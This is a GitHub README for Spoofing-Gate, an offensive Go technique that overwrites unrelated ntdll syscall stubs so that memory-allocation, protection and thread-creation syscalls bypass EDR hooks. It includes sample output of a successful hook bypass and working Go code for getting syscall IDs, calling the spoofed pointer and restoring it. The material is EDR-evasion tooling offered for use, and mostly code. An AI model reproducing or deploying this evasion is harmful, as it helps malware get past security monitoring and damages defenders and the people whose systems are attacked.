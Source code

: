# Spoofing-Gate
(Hellsgate|Halosgate|Tartarosgate)+Spoofing-Gate. Ensures that all systemcalls go through ntdll.dll

https://github.com/timwhitez/Doge-Gabh


inspired by Recycled Gate

https://github.com/thefLink/RecycledGate


exclude apis in https://github.com/Mr-Un1k0d3r/EDRs


- get sysid from "X"gate

- use Spoofing-Gate to get the Spoofing funtion pointer

- call the pointer

- Recover

```
> .\SpfGate.exe
messPtr:0x7ff91ee2e570
Messed up the NTCreateThreadEx function, gl launching calc!
NtAllocateVirtualMemory|(fake)NtQueryInformationTransactionManager: 0x7ff91ee2f710
NtProtectVirtualMemory|(fake)NtEnumerateBootEntries: 0x7ff91ee2e910
You seem to have bypassed a hooked function... congrats (sys ID is: 193)
NtCreateThreadEx|(fake)NtCallbackReturn: 0x7ff91ee2ce00

```



```
//get sysid from "X"gate
alloc,e := gabh.MemHgate(str2sha1("NtAllocateVirtualMemory"),str2sha1)
	if e != nil {
		panic(e)
	}
  
var tmplist []string
tmplist = append(tmplist,[]string{"NtAllocateVirtualMemory"}...)


//use Spoofing-Gate to get the Spoofing funtion pointer
alloctmp,e := spfgate.SpfGate(alloc,tmplist)
if e != nil{
  panic(e)
}
tmplist = append(tmplist,alloctmp.Fakename)
fmt.Printf("NtAllocateVirtualMemory|(fake)")
fmt.Printf(alloctmp.Fakename)
fmt.Printf(": 0x%x\n",alloctmp.Pointer)

//call the pointer
r1, _,_ := syscall.Syscall6(
		alloctmp.Pointer, //ntallocatevirtualmemory
		6,
		handle,
		uintptr(unsafe.Pointer(&baseA)),
		0,
		uintptr(unsafe.Pointer(&regionsize)),
		uintptr(memCommit|memreserve),
		syscall.PAGE_READWRITE,
	)
	if r1 != 0{
		fmt.Printf("1 %x\n", r1)
		return
	}
	
	
//Recover
alloctmp.Recover()


```


